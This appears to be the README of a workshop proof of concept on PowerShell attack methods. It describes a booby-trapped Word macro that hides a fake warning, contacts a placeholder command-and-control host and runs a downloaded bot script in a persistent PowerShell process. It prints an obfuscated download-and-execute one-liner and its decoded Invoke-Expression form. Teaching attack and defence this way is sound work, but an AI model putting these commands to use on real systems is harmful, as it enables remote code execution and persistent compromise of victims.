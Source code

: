 # powershell\_cnc
Accompanies the Attack and Defend with Powershell workshop.  A simplified POC demoing Powershell attack methods.


# Word Document:
Open the macro using password "Password1".  Most booby-trapped macro-enabled documents protect their code with a password.  They're trivial to bypass - you can replace the password with a different one using a hex editor.  Still, they provide some layer of protection against curious users and automated analysis software.

The macro uses Document\_Open() to run as soon macros are enabled.  It first hides the fake warning message using    Shape.Visible = False  .  It then connects to the command and control center at http://CNC\_URL, downloads the plain-text bot script, and executes it.   The execution takes place in a new Powershell process.  This way, the connection persists after the Word document is closed.  The encoded command used to connect is a Base64 representation of this obfuscated command:

' "&('{1}{0}'-f'x','iE')((.('{0}{1}{2}{3}'-f[char]110,'eW','-oBj','eCt')('{0}{2}{1}'-f'nEt.WeBC','ENT','Li')).('{1}{0}{2}'-f'adStRin','DownLO',[char]103)(('{1}{2}{2}{3}{0}'-f'\_URL','h',[char]116,'p://CNC')))" which in turn translates to:

Invoke-Expression( (New-Object Net.WebClient).DownloadString('http://CNC\_URL') )
